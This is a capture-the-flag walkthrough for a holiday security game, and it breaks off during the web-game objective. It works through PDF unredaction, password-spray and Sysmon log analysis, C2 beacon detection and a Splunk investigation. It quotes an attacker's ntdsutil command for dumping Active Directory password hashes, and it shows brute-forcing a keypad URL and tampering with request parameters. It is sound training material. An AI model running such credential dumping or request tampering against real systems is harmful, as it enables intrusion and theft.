Game Walkthru
Objective 0 - Talk to Santa in the Quad
Enter the campus quad and talk to Santa.
This is a little embarrassing, but I need your help. Our KringleCon turtle dove mascots are missing! They probably just wandered off. Can you please help find them?
To help you search for them and get acquainted with KringleCon, I’ve created some objectives for you. You can see them in your badge. Where's your badge? Oh! It's that big, circle emblem on your chest - give it a tap! We made them in two flavors - one for our new guests, and one for those who've attended both KringleCons. After you find the Turtle Doves and complete objectives 2-5, please come back and let me know.
Not sure where to start? Try hopping around campus and talking to some elves. If you help my elves with some quicker problems, they'll probably remember clues for the objectives.
Note
Santa is holding an umbrella. Who does he think he is? Mary Poppins??
Objective 1 - Find the turtle doves
Find the missing turtle doves.
Bounce around and explore the Elf U campus. You'll find Michael and Jane (the turtle doves) by the fireplace hearth in the Student Union. Click on them. They say "Hoot hoot?". This completes the objective. You earn an achievement and another part of the narrative is added to your badge.
Note
Jane and Michael Banks are the children in Mary Poppins.
Objective 2 - Unredact Threatening Document
Someone sent a threatening letter to Elf University. What is the first word in ALL CAPS in the subject line of the letter? Please find the letter in the Quad. (Difficulty 1 of 5)
Find the threatening document in the corner of the quad between Hermey Hall and the Student Union. Click on the document to download a copy to your computer, and open it with a PDF reader.
Tip
If you are concerned about opening a strange PDF file on your computer, kudos to you!
You can alternatively use pdf2txt, a program available in most Linux distributions that can extract text from a PDF file.
The interesting bits of this document are redacted, however the original text is simply obscured behind red shaded rectangles. To read all of the text, press Ctrl+A to select all text and Ctrl+C to copy it to your clipboard. Now open a text editor and press Ctrl+V to paste and read the plain text.
Date: February 28, 2019
To the Administration, Faculty, and Staff of Elf University
17 Christmas Tree Lane
North PoleFrom: A Concerned and Aggrieved Character
Subject: DEMAND: Spread Holiday Cheer to Other Holidays and Mythical Characters… OR ELSE!
Attention All Elf University Personnel,
It remains a constant source of frustration that Elf University and the entire operation at the North Pole focuses exclusively on Mr. S. Claus and his year-end holiday spree. We URGE you to consider lending your considerable resources and expertise in providing merriment, cheer, toys, candy, and much more to other holidays year-round, as well as to other mythical characters.
For centuries, we have expressed our frustration at your lack of willingness to spread your cheer beyond the inaptly-called “Holiday Season.” There are many other perfectly fine holidays and mythical characters that need your direct support year-round.
If you do not accede to our demands, we will be forced to take matters into our own hands. We do not make this threat lightly. You have less than six months to act demonstrably.
Sincerely,
--A Concerned and Aggrieved Character
Answer: DEMAND
Objective 3 - Windows Log Analysis: Evaluate Attack Outcome
We're seeing attacks against the Elf U domain! Using the event log data, identify the user account that the attacker compromised using a password spray attack. Bushy Evergreen is hanging out in the train station and may be able to help you out. (Difficulty 1 of 5)
Earlier, Bushy Evergreen hinted about a tool called DeepBlueCLI. Learn more about it in a presentation by its author Eric Conrad, then download it from https://github.com/sans-blue-team/DeepBlueCLI, and also download the security event log file linked in the objective. Unpack these files on your local disk.
Start Powershell, change directory to where you unpacked your files, and run .\DeepBlue.ps1 -file Security.evtx | Out-GridView
This produces a GUI grid view of the output from DeepBlueCLI. At the top, notice that the tool has discovered a password spray attack.

Scroll down and observe that each of the target accounts received 77 bad password attempts except for supatree. Assuming that the attacker also tried 77 passwords again the supatree account, then one of the attempts must have been successful.

Answer: supatree
Objective 4 - Windows Log Analysis: Determine Attacker Technique
Using these normalized Sysmon logs, identify the tool the attacker used to retrieve domain password hashes from the lsass.exe process. For hints on achieving this objective, please visit Hermey Hall and talk with SugarPlum Mary. (Difficulty 2 of 5)
Note
The music in Hermey Hall also has a Mary Poppins themed intro, this time from the song Chim-Chim-Cheree, which goes:
Nor 'ardly no night
There's things 'alf in shadow
And 'alf way in light
On the roof tops of London
Cool, what a sight."
Talk to Sugarplum Mary
Oh me oh my - I need some help!
I need to review some files in my Linux terminal, but I can't get a file listing.
I know the command is ls, but it's really acting up.
Do you think you could help me out? As you work on this, think about these questions:
1. Do the words in green have special significance?
2. How can I find a file with a specific name?
3. What happens if there are multiple executables with the same name in my $PATH?
Terminal: Linux Path

When you attempt to get a file listing using the ls command, only a message This isn't the ls you're looking for is returned. Using the hints, run which ls to find the full path of the executable that is being run. It's unusual for ls to be found in /usr/local/bin/ls.
Run find / -name ls -print 2>/dev/null (or locate -b '\ls') and notice that /bin/ls also exists. Most likely, the path environment variable has /usr/local/bin listed before /bin. When you call an executable without its full path, the operating system will check each of the directories listed in the path until it finds one, first match wins. Confirm that by running echo $PATH.
To switch this around, run export PATH=/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/bin. Now when you execute ls, it will use the one in /bin.
To summarize:
elf@a51e82c1af55:~$ which ls /usr/local/bin/ls elf@a51e82c1af55:~$ find / -name ls -print 2>/dev/null /usr/local/bin/ls /bin/ls elf@a51e82c1af55:~$ export PATH=/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/bin elf@a51e82c1af55:~$ ls ' ' rejected-elfu-logos.txt Loading, please wait...... You did it! Congratulations!
Hint from Sugarplum Mary
Oh there they are! Now I can delete them. Thanks!
Have you tried the Sysmon and EQL challenge?
If you aren't familiar with Sysmon, Carlos Perez has some great info about it.
Haven't heard of the Event Query Language?
Check out some of Ross Wolf's work on EQL or that blog post by Josh Wright in your badge.
Analyze logs with EQL
Download the json log file and install the python eql module.
The challenge states that password hashes were obtained using the lsass.exe process, and you need to figure out which tool was used.
First run a query to find out what processes were spawned by lsass.exe. Pipe the output of eql through jq, to make the output easier to read.
$ eql query -f sysmon-data.json "process where parent_process_name = 'lsass.exe'" | jq
{
"command_line": "C:\\Windows\\system32\\cmd.exe",
"event_type": "process",
"logon_id": 999,
"parent_process_name": "lsass.exe",
"parent_process_path": "C:\\Windows\\System32\\lsass.exe",
"pid": 3440,
"ppid": 632,
"process_name": "cmd.exe",
"process_path": "C:\\Windows\\System32\\cmd.exe",
"subtype": "create",
"timestamp": 132186398356220000,
"unique_pid": "{7431d376-dedb-5dd3-0000-001027be4f00}",
"unique_ppid": "{7431d376-cd7f-5dd3-0000-001013920000}",
"user": "NT AUTHORITY\\SYSTEM",
"user_domain": "NT AUTHORITY",
"user_name": "SYSTEM"
}
From this output, notice that lsass.exe was used to launch a command line (cmd.exe), and its process ID is 3440. Using that information, query for processes that were started in that command line, which would have a parent process ID of 3440.
$ eql query -f sysmon-data.json "process where ppid = 3440" | jq
{
"command_line": "ntdsutil.exe \"ac i ntds\" ifm \"create full c:\\hive\" q q",
"event_type": "process",
"logon_id": 999,
"parent_process_name": "cmd.exe",
"parent_process_path": "C:\\Windows\\System32\\cmd.exe",
"pid": 3556,
"ppid": 3440,
"process_name": "ntdsutil.exe",
"process_path": "C:\\Windows\\System32\\ntdsutil.exe",
"subtype": "create",
"timestamp": 132186398470300000,
"unique_pid": "{7431d376-dee7-5dd3-0000-0010f0c44f00}",
"unique_ppid": "{7431d376-dedb-5dd3-0000-001027be4f00}",
"user": "NT AUTHORITY\\SYSTEM",
"user_domain": "NT AUTHORITY",
"user_name": "SYSTEM"
}
The attacker used the command ntdsutil.exe \"ac i ntds\" ifm \"create full c:\\hive\" q q, which Windows administrators can use to create a backup of the Active Directory database. Since the backup files contain all of the user password hashes, this can also be used by attackers for offline password cracking.
Answer: ntdsutil
Objective 5 - Network Log Analysis: Determine Compromised System
The attacks don't stop! Can you help identify the IP address of the malware-infected system using these Zeek logs? For hints on achieving this objective, please visit the Laboratory and talk with Sparkle Redberry. (Difficulty 2 of 3)
Talk to Sparkle Redberry
I'm Sparkle Redberry and Imma chargin' my laser!
Problem is: the settings are off.
Do you know any PowerShell?
It'd be GREAT if you could hop in and recalibrate this thing.
It spreads holiday cheer across the Earth ...
... when it's working!
Terminal: Xmas Cheer Laser

Follow the hint listed in the welcome message on the terminal, and look at the contents of /home/callingcard.txt.
PS /home/elf> get-content /home/callingcard.txt What's become of your dear laser? Fa la la la la, la la la la Seems you can't now seem to raise her! Fa la la la la, la la la la Could commands hold riddles in hist'ry? Fa la la la la, la la la la Nay! You'll ever suffer myst'ry! Fa la la la la, la la la la
This suggests that you should look at the command history next, which shows recent commands were recently run.
PS /home/elf> get-history Id CommandLine -- ----------- 1 Get-Help -Name Get-Process 2 Get-Help -Name Get-* 3 Set-ExecutionPolicy Unrestricted 4 Get-Service | ConvertTo-HTML -Property Name, Status > C:\services.htm 5 Get-Service | Export-CSV c:\service.csv 6 Get-Service | Select-Object Name, Status | Export-CSV c:\service.csv 7 (Invoke-WebRequest http://127.0.0.1:1225/api/angle?val=65.5).RawContent 8 Get-EventLog -Log "Application" 9 I have many name=value variables that I share to applications system wide. At a co… 10 get-content /home/callingcard.txt
Line 7 suggests that the angle value could be 65.5.
Line 9 appears like another clue, but it's truncated. Get the full value of that CommandLine.
PS /home/elf> $(get-history)[8] | select CommandLine | fl
CommandLine : I have many name=value variables that I share to applications system
wide. At a command I will reveal my secrets once you Get my Child Items.
List out the environment variables, where many name=value variables are often found.
PS /home/elf> get-childitem env:\
Name Value
---- -----
_ /bin/su
DOTNET_SYSTEM_GLOBALIZATION_I… false
HOME /home/elf
HOSTNAME 118dde22a0ca
LANG en_US.UTF-8
LC_ALL en_US.UTF-8
LOGNAME elf
MAIL /var/mail/elf
PATH /opt/microsoft/powershell/6:/usr/local/sbin:/usr/local/b…
PSModuleAnalysisCachePath /var/cache/microsoft/powershell/PSModuleAnalysisCache/Mo…
PSModulePath /home/elf/.local/share/powershell/Modules:/usr/local/sha…
PWD /home/elf
RESOURCE_ID 19f83ef6-3d53-4fc3-8e99-2385558bc877
riddle Squeezed and compressed I am hidden away. Expand me from…
SHELL /home/elf/elf
SHLVL 1
TERM xterm
USER elf
USERDOMAIN laserterminal
userdomain laserterminal
username elf
USERNAME elf
PS /home/elf> get-childitem env:\riddle | fl
Name : riddle
Value : Squeezed and compressed I am hidden away. Expand me from my prison and I will
show you the way. Recurse through all /etc and Sort on my LastWriteTime to
reveal im the newest of all.
Find the file that is hidden somewhere in the /etc directory.
PS /home/elf> get-childitem /etc -file -recurse -ErrorAction SilentlyContinue ` | sort -Descending LastWriteTime | select fullname, length -First 5 FullName Length -------- ------ /etc/apt/archive 5662902 /etc/hostname 13 /etc/resolv.conf 113 /etc/hosts 175 /etc/mtab 12
Extract the archive and examine its contents.
PS /home/elf> Expand-Archive -path /etc/apt/archive -DestinationPath /home/elf
PS /home/elf> dir
Directory: /home/elf
Mode LastWriteTime Length Name
---- ------------- ------ ----
d-r--- 12/13/19 5:15 PM depths
d----- 12/18/19 8:39 PM refraction
--r--- 12/13/19 4:29 PM 2029 motd
PS /home/elf> dir refraction
Directory: /home/elf/refraction
Mode LastWriteTime Length Name
---- ------------- ------ ----
------ 11/7/19 11:57 AM 134 riddle
------ 11/5/19 2:26 PM 5724384 runme.elf
PS /home/elf/refraction> gc ./riddle
Very shallow am I in the depths of your elf home. You can find my entity by using my
md5 identity:
25520151A320B5B0D21561F92C8F6224
Change the mode on the runme.elf and execute it to get the refraction value.
PS /home/elf/refraction> chmod 755 ./runme.elf PS /home/elf/refraction> ./runme.elf refraction?val=1.867
That provides the refraction value. Refraction: 1.867 Now search for the file with the given hash value.
PS /home/elf> get-childitem /home/elf -file -recurse -ErrorAction SilentlyContinue `
| select DirectoryName,Name,@{N='FileHash';E={(Get-FileHash -Algo MD5 $_).Hash}} `
| select-string "25520151A320B5B0D21561F92C8F6224"
@{DirectoryName=/home/elf/depths/produce; Name=thhy5hll.txt;
FileHash=25520151A320B5B0D21561F92C8F6224}
This file provides the value for temperature and another hint.
PS /home/elf> gc /home/elf/depths/produce/thhy5hll.txt temperature?val=-33.5 I am one of many thousand similar txt's contained within the deepest of /home/elf/depths. Finding me will give you the most strength but doing so will require Piping all the FullName's to Sort Length.
That provides the value for temperature. Temperature: -33.5 Now find the biggest file.
PS /home/elf> get-childitem /etc -file -recurse -ErrorAction SilentlyContinue ` | sort -Descending length | select fullname, length -First 5 FullName Length -------- ------ /etc/systemd/system/timers.target.wants/EventLog.xml 10006962 /etc/apt/archive 5662902 /etc/ssl/certs/ca-certificates.crt 207436 /etc/mime.types 24301 /etc/services 19183
Earlier the answer was in the form of a command line. Check to see if there are any command line's logged in this file.
PS /home/elf> gc /etc/systemd/system/timers.target.wants/EventLog.xml `
| Select-String "CommandLine"
<S N="Message">Process Create:_x000D__x000A_RuleName: _x000D__x000A_UtcTime:
2019-11-07 17:59:56.525_x000D__x000A_ProcessGuid:
{BA5C6BBB-5B9C-5DC4-0000-00107660A900}_x000D__x000A_ProcessId: 3664_x000D__x000A_Image:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe_x000D__x000A_FileVersion:
10.0.14393.206 (rs1_release.160915-0644)_x000D__x000A_Description: Windows
PowerShell_x000D__x000A_Product: Microsoft® Windows® Operating
System_x000D__x000A_Company: Microsoft Corporation_x000D__x000A_OriginalFileName:
PowerShell.EXE_x000D__x000A_CommandLine:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c "`$correct_gases_postbody
= @{`n O=6`n H=7`n He=3`n N=4`n Ne=22`n Ar=11`n Xe=10`n F=20`n
Kr=8`n Rn=9`n}`n"_x000D__x000A_CurrentDirectory: C:\_x000D__x000A_User:
ELFURESEARCH\allservices_x000D__x000A_LogonGuid:
{BA5C6BBB-5B9C-5DC4-0000-0020F55CA900}_x000D__x000A_LogonId:
0xA95CF5_x000D__x000A_TerminalSessionId: 0_x000D__x000A_IntegrityLevel:
High_x000D__x000A_Hashes:
MD5=097CE5761C89434367598B34FE32893B_x000D__x000A_ParentProcessGuid:
{BA5C6BBB-4C79-5DC4-0000-001029350100}_x000D__x000A_ParentProcessId:
1008_x000D__x000A_ParentImage:
C:\Windows\System32\svchost.exe_x000D__x000A_ParentCommandLine:
C:\Windows\system32\svchost.exe -k netsvcs</S>
That provides the values for the gas mixture. Gas mixture: O='6';H='7';He='3';N='4';Ne='22';Ar='11';Xe='10';F='20';Kr='8';Rn='9'
Run the following commands to restore the laser.
(Invoke-WebRequest http://127.0.0.1:1225/api/angle?val=65.5).RawContent
(Invoke-WebRequest http://127.0.0.1:1225/api/temperature?val=-33.5).RawContent
(Invoke-WebRequest http://127.0.0.1:1225/api/refraction?val=1.867).RawContent
$postParams = @{O='6';H='7';He='3';N='4';Ne='22';Ar='11';Xe='10';F='20';Kr='8';Rn='9'}
(Invoke-WebRequest -Uri http://127.0.0.1:1225/api/gas -Method POST -Body $postParams)
(Invoke-WebRequest -Uri http://localhost:1225/api/on).RawContent
(Invoke-WebRequest -Uri http://localhost:1225/api/output).RawContent
Success! - 5.57 Mega-Jollies of Laser Output Reached!
Hint from Sparkle Redberry
You got it - three cheers for cheer!
For objective 5, have you taken a look at our Zeek logs?
Something's gone wrong. But I hear someone named Rita can help us.
Can you and she figure out what happened?
Identify the malware-infected system using RITA
Download the Zeek logs from the link in the objective. Ordinarily, you would need to install RITA from https://www.activecountermeasures.com/free-tools/rita/ to process the Zeek logs. The files that RITA would generate based on all of the Zeek logs are already provided in the zip file under the ELFU directory.
- Use your web browser to open the index.html
- Select the ELFU database from the list
- Choose Beacons from the menu.
This table analyzes the connections observed by Zeek between each host IP address pair. It considers how many connections there were, how much time there was between each connection, and how many bytes of data were sent in each connection. Hosts that have a higher number of connections, on an even interval, and exchange the same amount of data every time, get a higher score and rise to the top of this list.

RITA gave a near-perfect score of 0.998 to the 7660 connections from 192.168.134.130 to 144.202.46.214. If you examine the Zeek logs, you'll notice that each one of these connections was an http request for /504vsa/server/vssvc.php. From this, you can tell the connections are generated by vsagent, a tool developed by Black Hills Information Security to demonstrate how C2C traffic can evade detection by hiding inside of an http VIEWSTATE parameter.
elfu-zeeklogs/http.log-00001_20190823120021.log:1566561621.254485 CWQIp4380SUAVFfJod 192.168.134.130 2152 144.202.46.214 80 1 POST 144.202.46.214 /504vsa/server/vssvc.php - Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0) 95 237 200 OK - - - (empty) - - - FHKfVa3aiBpsdJ2WIi text/plain FSmWGu4oA9VSTQYNyf text/html
Answer: 144.202.46.214
Revisit Santa
Santa instructed you to come back and see him when you were done with objectives 2-5, so do that next.
Thank you for finding Jane and Michael, our two turtle doves! I’ve got an uneasy feeling about how they disappeared. Turtle doves wouldn’t wander off like that.
Someone must have stolen them! Please help us find the thief! It’s a moral imperative! I think you should look for an entrance to the steam tunnels and solve Challenge 6 and 7 too!
Gosh, I can’t help but think:
Winds in the East, snow coming in…
Like something is brewing and about to begin!
Can’t put my finger on what lies in store,
But I fear what’s to happen all happened before!
Note
Although Mary Poppins says that mist is blowing in, the last 4 lines from Santa are another quote from the movie.
Objective 6 - Splunk
Access https://splunk.elfu.org/ as elf with password elfsocks. What was the message for Kent that the adversary embedded in this attack? The SOC folks at that link will help you along! For hints on achieving this objective, please visit the Laboratory in Hermey Hall and talk with Prof. Banas. (Difficulty 3 of 5)
Talk to Prof Banas
Hi, I'm Dr. Banas, professor of Cheerology at Elf University.
This term, I'm teaching "HOL 404: The Search for Holiday Cheer in Popular Culture," and I've had quite a shock!
I was at home enjoying a nice cup of Gløgg when I had a call from Kent, one of my students who interns at the Elf U SOC.
Kent said that my computer has been hacking other computers on campus and that I needed to fix it ASAP!
If I don't, he will have to report the incident to the boss of the SOC.
Apparently, I can find out more information from this website https://splunk.elfu.org/ with the username: elf / Password: elfsocks. I don't know anything about computer security. Can you please help me?
Investigate an incident using Splunk
Log into the Splunk server according to Dr. Banas instructions. Some guidelines are provided when you first log in. Follow the prompts in the SOC chat windows. As you answer questions, further explanation is provided about how the searches were constructed. If you get stuck, enter an answer from the table below and read the SOC analyst's comments to understand where you went wrong.
Answers to the training questions
| Question | Answer |
|---|---|
| What is the short host name of Professor Banas' computer? | sweetums |
| What is the name of the sensitive file that was likely accessed and copied by the attacker? | C:\Users\cbanas\Documents\Naughty_and_Nice_2019_draft.txt |
| What is the fully-qualified domain name(FQDN) of the command and control(C2) server? | 144.202.46.214.vultr.com |
| What document is involved with launching the malicious PowerShell code? | 19th Century Holiday Cheer Assignment.docm |
| How many unique email addresses were used to send Holiday Cheer essays to Professor Banas? | 21 |
| What was the password for the zip archive that contained the suspicious file? | 123456789 |
| What email address did the suspicious file come from? | bradly.buttercups@eifu.org |
Once you find answers to all of the questions, you can fetch the document from the archive. Run a query to determine the file path to the malcious file.
index=main sourcetype=stoq "results{}.workers.smtp.from"="bradly buttercups <bradly.buttercups@eifu.org>" | eval results = spath(_raw, "results{}")
| mvexpand results
| eval path=spath(results, "archivers.filedir.path"), filename=spath(results, "payload_meta.extra_data.filename"), fullpath=path."/".filename
| search fullpath!=""
| table filename,fullpath
This reveals a listing of files, including 19th Century Holiday Cheer Assignment.docm. When you download this file, you'll find that it's been sanitized and replaced with a pointer to the answer.
$ unzip c6e175f5b8048c771b3a3fac5f3295d2032524af $ strings c6e175f5b8048c771b3a3fac5f3295d2032524af Cleaned for your safety. Happy Holidays! In the real world, This would have been a wonderful artifact for you to investigate, but it had malware in it of course so it's not posted here. Fear not! The core.xml file that was a component of this original macro-enabled Word doc is still in this File Archive thanks to stoQ. Find it and you will be a happy elf :-)
Request the core.xml file and read it to get the answer.

Answer: Kent you are so unfair. And we were going to make you the king of the Winter Carnival.
Talk to Prof Banas again
Oh, thanks so much for your help! Sorry I was freaking out.
I've got to talk to Kent about using my email again...
...and picking up my dry cleaning.
Objective 7 - Get access to steam tunnels
Gain access to the steam tunnels. Who took the turtle doves? Please tell us their first and last name. For hints on achieving this objective, please visit Minty's dorm room and talk with Minty Candy Cane. (Difficulty 3 out of 5)
Talk to Tangle Coalbox
In order to get into the Dormitory, where Minty Candycane is, you'll have to unlock a door that is protected by an electronic keypad lock. Tangle provides a hint to help guess the code.
Hey kid, it's me, Tangle Coalbox.
I'm sleuthing again, and I could use your help.
Ya see, this here number lock's been popped by someone.
I think I know who, but it'd sure be great if you could open this up for me.
I've got a few clues for you.
- One digit is repeated once.
- The code is a prime number.
- You can probably tell by looking at the keypad which buttons are used.
Break the Frosty Doorcode
According to Tangle, the wear on the keypad makes it pretty obvious which digits are used: 1, 3 and 7. He also says that one digit is repeated once, so the code must be 4 digits long.
Precalculated prime numbers are available for download on the Internet. With a little bit of command line magic, you can identify all of the 4 digit prime numbers that contain 1, 3, or 7, with at least one repeated digit.
$ wget https://primes.utm.edu/lists/small/millions/primes1.zip
$ unzip primes1.zip
$ sed -E 's/\s+/\n/g' primes1.txt | grep -E '^[137]{4}$' | grep -E '(.)\1{1}'
1117
1171
1733
1777
3313
3331
3371
3373
3733
7177
7331
7333
7717
The only numbers that fit all three clues end up being: 1773, 3371, and 7331.
Door codes are submitted to a URL as GET parameters. You can either try them manually or automate the tests through Burpsuite or OWASP Zed Attack Proxy.
$ curl 'https://keypad.elfu.org/checkpass.php?i=7331&resourceId=456004db-e880-49ec-a278-f24056f89f49'
{"success":true,"resourceId":"456004db-e880-49ec-a278-f24056f89f49","hash":"31a897165cb11fc5754d547bce7cc2804b161c9ae0b18d3035f449c6cf689880","message":"Valid Code!"}
The correct number ends up being 7331. Since 1337 (leet) isn't prime, the reverse must be the next best thing.
Talk to Tangle Coalbox again
Yep, that's it. Thanks for the assist, gumshoe.
Hey, if you think you can help with another problem, Prof. Banas could use a hand too.
Head west to the other side of the quad into Hermey Hall and find him in the Laboratory.
Been there, done that. Move on to the dorm through the open door.
Talk to Minty Candycane
Hi! I'm Minty Candycane!
I just LOVE this old game!
I found it on a 5 1/4" floppy in the attic.
You should give it a go!
If you get stuck at all, check out this year's talks.
One is about web application penetration testing.
Good luck, and don't get dysentery!
Note
The reference to dysentery comes from a time honored game from the days of 8-bit computing called The Oregon Trail. In Oregon Trail, there are many ways to die that people don't have to worry about today. "You've Died of Dysentery" was a such a frequent end to the game, it's become a part of the common lexicon for old school gamers.
This game has been re-made from The Oregon Trail into The Holiday Hack Trail, but playing it is very similar. To win the game, you have to travel to the North Pole (Distance = 8000) by Dec-25 using your limited resources. You can cheat your way to victory, but each level (Easy, Medium, and Hard) takes a different method.
In easy mode, start by buying any amount of resources that you can afford (or nothing at all), then update the distance value of 7999 in the GET parameters and press the ">" button. Now press the Go button. The game will be over and you'll have successfully reached the North Pole.

In medium mode, the distance parameter is submitted in a POST request, so you can't just modify the value in the browser bar. This time, open your browser's web developer tools and search for the distance parameter under the elements tab. Change the distance parameter's value to 7999. Now click Go in the game. The game will be over, and you'll have won again.
